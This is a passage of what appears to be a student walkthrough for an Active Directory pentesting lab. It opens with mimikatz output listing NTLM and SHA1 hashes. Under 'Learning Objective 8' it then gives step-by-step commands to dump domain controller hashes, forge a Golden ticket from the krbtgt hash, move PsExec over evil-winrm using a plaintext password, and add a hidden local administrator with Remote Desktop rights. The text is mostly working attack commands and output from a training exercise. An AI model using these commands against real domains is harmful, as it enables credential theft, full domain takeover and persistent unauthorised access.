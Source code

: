 ```
	 * Domain   : dcorp
	 * NTLM     : 639c1adde3e0d1ba0d733c7d0d8f23ec
	 * SHA1     : 944b2007bbb8137e85ecb019f409790040c435f9
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-MGMT$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/5/2023 1:32:52 AM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : DCORP-MGMT$
	 * Domain   : dcorp
	 * Password : (null)
	kerberos :	
	 * Username : dcorp-mgmt$
	 * Domain   : DOLLARCORP.MONEYCORP.LOCAL
	 * Password : (null)
	ssp :	
	credman :	

mimikatz(powershell) # exit
Bye!
```

# Learning Objective 8

• Dump hashes on the domain controller of dollarcorp.moneycorp.local.
	- `Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc`

• Using the NTLM hash of krbtgt account, create a Golden ticket.
	- `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

• Use the Golden ticket to (once again) get domain admin privileges from a machine.
	- `<STUDENT VM> cp C:\AD\Tools\Invoke-Mimikatz.ps1 '\\dcorp-dc.dollarcorp.moneycorp.local\C$\Users\Administrator\Desktop\Invoke-Mimikatz.ps1'
	- `<ATTACKER MACHINE> evil-winrm -i 172.16.100.27 -u student27 -p XD9nVnegHk3HYU4k`
	- `<ATTACKER MACHINE> *Evil-WinRM* PS C:\AD\Tools> upload /mnt/crtp/Tools/SysinternalsSuite/PsExec.exe`
	- `<ATTACKER MACHINE> *Evil-WinRM* PS C:\AD\Tools> upload /mnt/crtp/Tools/SysinternalsSuite/Eula.txt`
	- `<STUDENT VM> C:\\AD\\Tools\\PsExec.exe \\dcorp-dc cmd.exe`
	- `<DC MACHINE> net user superstar Password123! /add`
	- `<DC MACHINE> net localgroup "Administrators" superstar /add`
	- `<DC MACHINE> net localgroup "Remote Desktop Users" superstar /add`

